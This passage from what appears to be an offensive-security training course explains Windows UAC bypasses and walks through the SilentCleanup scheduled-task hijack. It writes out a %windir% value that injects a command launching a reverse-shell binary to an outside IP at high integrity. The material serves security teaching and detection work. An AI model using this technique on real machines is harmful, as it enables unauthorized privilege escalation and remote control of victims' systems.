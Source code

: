 ![image](https://academy.hackthebox.com/storage/modules/254/2/18.png)

This is a situation where we would have to bypass `User Access Control`.

## How Can We Bypass It?

So how do we go about bypassing `User Access Control`? It turns out that there are a lot of ways to do this, so we will focus on `two of the most common ones` according to this [research article by Elastic](https://www.elastic.co/security-labs/exploring-windows-uac-bypasses-techniques-and-detection-strategies):

- UAC Bypass via `DiskCleanup Scheduled Task Hijack`
- UAC Bypass via `FodHelper Execution Hijack`

![image](https://academy.hackthebox.com/storage/modules/254/2/19.png)

Note: Everything in this section will be done with `Real-time protection` enabled.

#### Bypass 1: DiskCleanup Scheduled Task Hijack

The first bypass we will cover is one which was [discovered in 2017](https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html) by [James Forshaw](https://twitter.com/tiraniddo) from [Google Project Zero](https://googleprojectzero.blogspot.com/). `SilentCleanup` is a scheduled task which is configured on `Windows` by default. The interesting thing about this scheduled task, is that it may be started from a process with a `medium integrity level`, and then automatically elevates to a `high integrity level` since the `"Run with highest privileges"` option is enabled.

![image](https://academy.hackthebox.com/storage/modules/254/2/20.png)

Therefore, if we can control what `SilentCleanup` does, we can elevate to a `high integrity level` without triggering a prompt from `User Account Control`. Taking a look at what `SilentCleanup` does, we see that it starts the program `"%windir%\system32\cleanmgr.exe"` with some arguments.

![image](https://academy.hackthebox.com/storage/modules/254/2/21.png)

Since the path of the program to be launched includes the environment variable `%windir%`, we can modify this to control the program `SilentCleanup` launches in order to bypass `User Account Control`. Let's imagine we have placed `RShell.exe` in `C:\Windows\Tasks\`. By setting `%windir%` to the following (mind the space at the end):

```
cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM

```

The path of the program to be launched would become:

```
cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM \system32\cleanmgr.exe /autocleanstoragesense /d %systemdriv...

```

[REM](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/rem) is a `Windows` command which indicates a comment, which means `SilentCleanup` would just end up launching `RShell.exe` with a `high integrity level`.
